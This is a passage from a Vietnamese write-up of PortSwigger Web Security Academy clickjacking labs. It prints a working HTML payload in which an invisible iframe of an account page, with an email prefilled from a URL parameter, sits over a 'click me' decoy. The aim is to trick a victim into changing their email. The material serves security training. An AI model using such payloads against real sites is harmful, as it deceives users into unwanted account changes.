 >Chọn **"Deliver exploit to victim"** để gửi nó tới nạn nhân, màn hình hiển thị bài lab đã được solve, chứng tỏ đã có người dùng bị lừa ấn vào Click me: ![image](https://hackmd.io/_uploads/H13DbNxIR.png)

# **2. Lab: Clickjacking with form input data prefilled from a URL parameter**
>This lab extends the basic [clickjacking example](https://portswigger.net/web-security/clickjacking) in [Lab: Basic clickjacking with CSRF token protection](https://portswigger.net/web-security/clickjacking/lab-basic-csrf-protected). The goal of the lab is to change the email address of the user by prepopulating a form using a URL parameter and enticing the user to inadvertently click on an "Update email" button.
To solve the lab, craft some HTML that frames the account page and fools the user into updating their email address by clicking on a "Click me" decoy. The lab is solved when the email address is changed.
You can log in to your own account using the following credentials: `wiener:peter`
![image](https://hackmd.io/_uploads/SkqQBVxUC.png)

>Mục tiêu của bài lab này là khiến nạn nhân Update email bất kì bằng kĩ thuật Clickjacking. Điểm đặc biệt ở form `Update email` này, email cần thay đổi sẽ được tự động trích xuất từ tham số email trên URL → ta cần iframe với source là trang `/my-account` với tham số email: ![image](https://hackmd.io/_uploads/ByBGU4gUA.png)

>Sử dụng thử **ClickBandit** để tạo payload đối với chức năng `Update email` tại đường dẫn `/my-account?email=ducanh@gmail.com` để thay đổi email nạn nhân thành `ducanh@gmail.com`

>Sau khi hoàn thành, click Save thì ClickBandit sẽ trả về mã nguồn trang giả mạo cho mình. Sử dụng mã nguồn đó vào exploit-server: ![image](https://hackmd.io/_uploads/H1tNwNxLC.png)
![image](https://hackmd.io/_uploads/BJP8v4xLR.png)

>Có thể sử dụng payload: 
```
<style>
    iframe {
        position:relative;
        width: 1000px;
        height: 800px;
        opacity: 0.0001;
        z-index: 2;
    }
    div {
        position:absolute;
        top: 465px;
        left: 65px;
        z-index: 1;
    }
</style>
<div>click me</div>
<iframe src="https://0a69003e0408ce2c801e0c4e006600c9.web-security-academy.net/my-account?email=123@gmail.com"></iframe>
```
